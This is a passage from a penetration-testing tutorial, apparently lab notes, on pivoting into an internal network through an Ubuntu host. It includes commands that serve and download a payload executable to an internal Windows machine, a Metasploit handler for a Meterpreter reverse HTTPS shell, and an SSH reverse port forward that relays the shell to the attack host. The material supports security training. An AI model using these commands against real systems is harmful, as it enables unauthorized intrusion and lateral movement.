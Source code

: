And then transfer that executable to the internal windows machine. We'll use a simple python3 server:

```shell-session
python3 -m http.server <port>
```

```powershell
Invoke-WebRequest -Uri "http://<internalIPofUbuntu:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

### Establishing the connection: Internal network - Attack host

Now, before running our payload which will hit back the Ubuntu's port 8080, we should forward that incoming stream to our listener on our attacking machine on Port 8000.

```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
lport => 8000
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8000
```

```shell-session
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
-vn: Will give us a verbose output
-R: tells the SSH session to reverse forward the traffic
    from the internal network on port 8080, to our attacking machine's
    port 8000 where the meterpreter listener resides. 
```

{% hint style="success" %}
We successfully created a way between us and the internal network through our pivot. Working in both ways: To and From our attacking machine.

We should see verbose logs of the connection taking place in the windows where we ran the last `SSH` command.

Also, the meterpreter session will state that the connection is coming from `127.0.0.1` which is normal behavior since the traffic is being routed through the local `SSH` socket.

Running `netstat` will show us that the connection is indeed coming from `SSH` .
{% endhint %}

## Socat: Redireting Traffic between two channels
